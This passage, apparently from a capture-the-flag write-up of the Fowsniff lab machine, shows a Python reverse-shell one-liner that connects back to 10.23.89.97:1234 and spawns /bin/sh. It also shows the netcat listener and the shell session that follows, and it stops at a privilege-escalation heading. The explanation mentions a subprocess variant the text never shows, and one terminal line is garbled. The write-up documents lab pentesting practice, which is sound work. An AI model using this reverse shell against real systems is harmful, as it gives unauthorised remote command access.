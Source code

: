 
### Alternative for a More Interactive Shell

Sometimes, using `pty.spawn` provides a more fully interactive shell. You could also try this version:

```bash
python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.23.89.97",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/sh")'

```

---

### Explanation

- **Quotes around IP:** The IP address `"10.23.89.97"` must be a string.
- **Socket connection:** The `s.connect` method now properly takes a tuple with the IP and port.
- **Shell spawn:** Either using `subprocess.call` with `["/bin/sh","-i"]` or `pty.spawn("/bin/sh")` works. The latter often gives better interactive behavior.

Make sure you use these commands only in environments where you have permission to connect and execute such operations. Happy fuzzing and pentesting!

```jsx
(neo㉿neo)-[~/pro/fo]
└─$ nc -lvnp 1234         
listening on [any] 1234 ...
```

```jsx
baksteen@fowsniff:~$ 
baksteen@fowsniff:~$ python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.23.89.97",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/sh")'
); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/sh")'fileno(),0 
ls
```

```jsx
└─$ nc -lvnp 1234         
listening on [any] 1234 ...
connect to [10.23.89.97] from (UNKNOWN) [10.10.145.107] 57862
$ ls
ls
Maildir  term.txt
$ cat term.txt
cat term.txt
I wonder if the person who coined the term "One Hit Wonder" 
came up with another other phrases.
$ 
```

## Privilege Escalation
